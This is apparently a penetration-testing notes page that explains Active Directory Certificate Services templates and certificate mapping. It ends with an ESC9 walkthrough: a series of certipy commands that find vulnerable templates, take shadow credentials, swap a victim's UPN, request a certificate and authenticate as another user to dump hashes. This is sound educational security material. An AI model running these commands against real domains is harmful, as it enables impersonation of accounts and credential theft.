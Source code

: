 ```yaml
---
description: AD CS | PKI Signature | Certificate | Misconfigured | CA |
---
```


# Certificate templates

Active Directory Certificate Services (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview" %}

In short you can think of this as a way to prove identification very much like how a Kerberos ticket works. AD CS is a server role that functions as Microsoft’s public key infrastructure PKI implementation. Some key words:

| Keyword                                           | Description                                                                                               |
| ------------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **PKI** (Public Key Infrastructure)               | a system to manage certificates/public key encryption                                                     |
| **AD CS** (Active Directory Certificate Services) | Microsoft’s PKI implementation                                                                            |
| **CA** (Certificate Authority)                    | PKI server that issues certificates                                                                       |
| **Enterprise CA**                                 | CA integrated with AD (as opposed to a standalone CA)                                                     |
| Certificate Template                              | collection of settings and policies that defines the contents of a certificate issued by an enterprise CA |
| **CSR** (Certificate Signing Request)             | a message sent to a CA to request a signed certificate                                                    |
| **EKU** (Extended/Enhanced Key Usage)             | object identifiers (OIDs) that define how a certificate can be used                                       |

AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. A user can request a certificate based on a predefined certifcate template. These templates specifies the settings for the final certificate, like can it be used for authentication, what properties defined, who can enroll.

### <mark style="color:yellow;">Certifcate mapping</mark>

{% hint style="info" %}
Names like **ESC3** or **ESC9** refer to specific certificate templates that can be exploited.
{% endhint %}

There have misconfigurations found in ESC1, ESC2, ESC3, ESC8, ESC9 and ESC10. Below we will go through the ESC9 which uses certificate mapping. Certificate mapping is the part of certificate authentication where the DC takes a principal like user or computer data provided in the certificate used uring authentication, and attempts to map this to a user or computer.

#### Implicit mapping

Here the information contained in the ceritificate's SAN or Subject Alternative Name is used to match the UPN attribute or `userPrincipalName` for a user or DNS `dNSHostName` for machine account. In case of a user account, the `otherName` component of the SAN is used, for machine `dNSName`.

If the UPN mapping fails the DC will attempt to match the username contained in `otherName` with `sAMAccountName` attribute, and then with `sAMAccountName` suffixed with `$`. Similar with DNS.

#### Explicit mapping

In case of explicit mapping, the altSecurityIdenties attribute of an account user or machine must contain identifiers of the certificates with which is authorised to authenticate. Certificate must be signed by a trusted certification authority, and match one of the values in `altSecurityidentities`.

<figure><img src="broken-reference" alt=""><figcaption><p>Source: The Hacker Recipes. Identifiers X509 v3 certificate</p></figcaption></figure>

Read more on Hacker Recipes about weak and strong mappings and labels.[https://www.thehacker.recipes/ad/movement/adcs/certificate-templates](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates)

### <mark style="color:yellow;">Example ESC9</mark>

Microsoft has introduced the `CT_FLAG_NO_SECURITY_EXTENSION` flag for the `msPKI-Enrollment-Flag` attribute of certificate templates. If present, the CA will not include the user's SID when issuing certificates

{% hint style="info" %}
Certipy will now check for ESC1, ESC2, ESC3, ESC4, and the new ESC9 on certificate templates.
{% endhint %}

Using certifpy we can search for vulnerabilities. ESC9 requirements:

* `SrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

```bash
certipy find -u 'ca_operator' -p 'newP@ssword2022' -dc-ip 10.10.11.41 -vulnerable -stdout
```

<figure><img src="broken-reference" alt=""><figcaption><p>Has no security extension.</p></figcaption></figure>

Get user hahes which [shadow-credentials.md](shadow-credentials.md "mention")or

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Next change the userPrincipalName from user2 to user3

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

Request vulnerable certificate as user2

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template CertifiedAuthentication
```

Change user2 UPN back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Authenicate as user3 and get hashes

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```
